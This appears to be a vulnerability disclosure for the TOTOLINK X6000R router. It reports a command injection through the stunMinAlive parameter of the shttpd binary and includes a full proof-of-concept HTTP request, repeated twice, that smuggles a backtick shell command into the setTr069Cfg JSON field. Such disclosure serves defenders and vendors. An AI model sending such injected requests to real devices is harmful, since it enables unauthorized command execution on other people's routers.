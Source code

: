 # Summary
There is a command execution vulnerability in TOTOLINK X6000R(https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/247/ids/36.html).

Affected component is parameter **`stunMinAlive`** of `sub_4119A0` function in `/usr/sbin/shttpd` binary file.

**Notice**:
I checked **all the currently disclosed CVEs** and found that the affected parameters in the currently exposed sub_4119A0 are:
- [ ] interval
- [ ] pass
- [ ] enable
- [ ] url
- [ ] informEnable
- [ ] user
- [ ] stun_user
- [ ] request_user
- [ ] request_pass
- [ ] stun_enable
- [ ] stunServerAddr

However, parameters
- [ ] **port**
- [ ] **stunPort**
- [ ] **stunMaxAlive**
- [ ] **stunMinAlive**

are ignored.

# Details
Funtion `sub_4119A0` get `stunMinAlive` from user's input and use `Uci_Set_Str`, which leads to command execution:
![image](https://github.com/user-attachments/assets/c2c9f0be-dd97-4b7a-b9f8-cd66873d2d54)

`Uci_Set_Str`:
![image](https://github.com/user-attachments/assets/fec24bc9-d13a-4c0f-bcd0-57a605e68383)

`CsteSystem`:
![image](https://github.com/user-attachments/assets/c55d454e-996d-451d-b21a-837127736d69)

The corresponding front-end web interface is here:
![image](https://github.com/user-attachments/assets/12ba6593-3d59-4390-ad1b-fbf1e3d9d2a6)

Use burpsuite to intercept the packet, and modify the value of `stunMinAlive`:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=FE46010A2414AC06 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 328
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/tr069_cfg.html?token=FE46010A2414AC06
Priority: u=1

{"addEffect":"0","enable":"1","url":"www.awa.com","user":"1","pass":"1","informEnable":"0","interval":"","requestUser":"","requestPass":"",
"port":"12",
"stun_user":"","stun_pass":"","stunEnable":"0","stunServerAddr":"","stunPort":"","stunMaxAlive":"","stunMinAlive":"`ls >/web/poc_stunMinAlive.txt`","topicurl":"setTr069Cfg"}
```

![image](https://github.com/user-attachments/assets/73f25633-0eea-4bf6-85e3-f4fd5da978d3)

![image](https://github.com/user-attachments/assets/6eabbb8f-7646-498c-8ab3-8eaf2c8d9133)


# PoC
Login first,
Use burpsuite to intercept the packet, and modify the value of `stunMinAlive`:
```HTTP
POST /cgi-bin/cstecgi.cgi?token=FE46010A2414AC06 HTTP/1.1
Host: ip:8081
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:127.0) Gecko/20100101 Firefox/127.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 328
Origin: http://ip:8081
DNT: 1
Sec-GPC: 1
Connection: keep-alive
Referer: http://ip:8081/advance/tr069_cfg.html?token=FE46010A2414AC06
Priority: u=1

{"addEffect":"0","enable":"1","url":"www.awa.com","user":"1","pass":"1","informEnable":"0","interval":"","requestUser":"","requestPass":"",
"port":"12",
"stun_user":"","stun_pass":"","stunEnable":"0","stunServerAddr":"","stunPort":"","stunMaxAlive":"","stunMinAlive":"`ls >/web/poc_stunMinAlive.txt`","topicurl":"setTr069Cfg"}
```

![image](https://github.com/user-attachments/assets/73f25633-0eea-4bf6-85e3-f4fd5da978d3)

![image](https://github.com/user-attachments/assets/6eabbb8f-7646-498c-8ab3-8eaf2c8d9133)
